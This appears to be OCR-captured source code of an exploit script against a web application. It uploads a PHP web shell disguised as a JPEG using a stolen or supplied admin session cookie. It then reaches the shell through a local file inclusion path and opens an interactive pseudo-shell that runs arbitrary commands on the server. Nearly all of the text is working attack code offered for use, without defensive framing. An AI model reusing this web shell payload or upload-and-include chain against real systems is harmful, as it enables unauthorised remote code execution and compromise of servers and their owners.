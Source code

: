 ```python
    multipart_data = MultipartEncoder(
        fields = {
            'fileToUpload': (filename, a, 'image/jpeg')
            }
    )
    headers = {
        'Content-Type': multipart_data.content_type,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0', 
        'Cookie': cookie
    }
    response = requests.post(url, data=multipart_data, headers=headers, proxies=proxies)

    if "The file has been uploaded." in response.text:
        print("[+] SUCCESSFULLY UPLOADED")
    else:
        print("[-] FAILED UPLOAD")
        sys.exit(1)

    return response

def figure_filename(m, filename):
    hash = md5( '$file_hash' + str(m) )
    created_filename = f"{hash}_{filename}"
    return created_filename

def pseudo_shell(url):
    response_reg = r'<pre>([\s\S]*)\n</pre>' # anyting between pre tags
    print("[+] Starting pseudo shell. Type 'exit' to exit")
    while True:
        inp = input("> ")
        if inp == 'exit':
            break
        elif inp == "":
            continue

        encoded = urllib.parse.quote(inp)
        response = requests.get(url + "&cmd=" + encoded)
        received = response.text

        matchObj = re.search( response_reg, received, re.M|re.I)
        if(matchObj):
            print(matchObj.group(1))
        else:
            print("[failed] received length:", len(received))
    print("Exiting...")

if len(sys.argv) < 4:
    print("Missing parameters: python3 exploit.py <target> <session_admin> <file_jpg>")
    sys.exit(1)

host = sys.argv[1]
cookie = sys.argv[2]
filename = sys.argv[3]
payload = b"<?php echo '<h1>use &cmd=</h1><pre>' . shell_exec(urldecode($_GET['cmd'])) . '</pre>';?>"

target = f"http://{host}"
url_upload = f"{target}/upload.php"
url_lfi = f"{target}/image.php?img=./images/uploads/"

# upload file
response_upload = upload(url_upload, filename, cookie, payload)

```